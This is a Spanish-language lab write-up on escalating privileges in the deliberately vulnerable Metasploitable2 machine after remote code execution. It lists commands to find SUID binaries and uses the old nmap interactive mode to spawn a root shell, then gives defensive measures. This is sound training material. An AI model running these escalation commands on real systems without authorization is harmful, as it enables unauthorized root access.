



# Metasploitable2 - Escalada de privilegios tras RCE

> Laboratorio/documentación realizada en entorno local o controlado con fines educativos. No ejecutar estas técnicas contra sistemas ajenos o sin autorización.


## Objetivo

Documentar una práctica corta en la que, tras obtener una shell mediante RCE en Metasploitable2, se enumeran binarios SUID y se identifica una vía de escalada de privilegios.

## Enumeración inicial

```bash
find / -perm -u=s -type f 2>/dev/null
```

Este comando busca binarios con bit SUID activo. En sistemas antiguos o mal configurados pueden existir binarios peligrosos que permitan ejecutar comandos con privilegios elevados.

## Técnica observada

En la práctica se usa el modo interactivo de `nmap` en un entorno vulnerable:

```bash
nmap --interactive
!sh
whoami
id
```

## Medidas defensivas

- Mantener los sistemas actualizados.
- Retirar binarios SUID innecesarios.
- Monitorizar cambios en permisos especiales.
- Evitar versiones antiguas con funciones interactivas peligrosas.
- Revisar periódicamente con:

```bash
find / -perm -4000 -type f 2>/dev/null
```

## Evidencias visuales




*Captura 1.*



*Captura 2.*



*Captura 3.*

## Resumen

La fase posterior a una RCE debe incluir enumeración local. En defensa, controlar permisos SUID y mantener software actualizado reduce muchas vías clásicas de escalada.
